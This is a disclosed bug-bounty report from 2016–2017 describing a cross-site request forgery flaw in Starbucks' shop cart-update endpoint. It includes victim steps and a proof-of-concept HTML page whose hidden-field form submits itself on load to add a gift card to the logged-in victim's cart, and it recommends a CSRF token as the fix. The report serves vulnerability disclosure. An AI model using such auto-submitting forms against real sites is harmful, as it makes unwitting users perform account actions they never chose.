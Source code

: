 # CSRF: add item to victim's cart automatically (starbucks.com - updatecart)

## Report Details
- **Report ID**: 177472
- **URL**: https://hackerone.com/reports/177472
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-10-22T02:18:59.203Z
- **Disclosed**: 2017-06-02T16:30:07.653Z

## Reporter
- **Username**: bughuntermate
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information

Steps:
    1. Victim login their starbucks account first.
    2. Attacker send a form/link to victim.
    3. If victim click the form/link, An item would automatically add to victim's cart.
    4. If victim do not find this item, he/she would pay for this item which can greatly influence your repuation.

Attached is the form.


<html>
  <body>
    <form action="https://www.starbucks.com/shop/updatecart" method="POST">
      <input type="hidden" name="card&#95;custom&#95;image&#95;id" value="" />
      <input type="hidden" name="card&#95;custom&#95;theme" value="" />
      <input type="hidden" name="card&#95;id" value="db126c2c&#45;277c&#45;4208&#45;9ade&#45;e3014ba16722" />
      <input type="hidden" name="card&#95;quantity" value="1" />
      <input type="hidden" name="defined&#95;amount" value="25" />
      <input type="hidden" name="defined&#95;currency" value="USD" />
      <input type="hidden" name="greeting&#95;card" value="8779a801&#45;11e4&#45;463e&#45;bcbd&#45;8e8f7b4608ac" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

Solution:
    Add a CSRF-token to the post form.

## Attachments
- starbuckcsrf.html
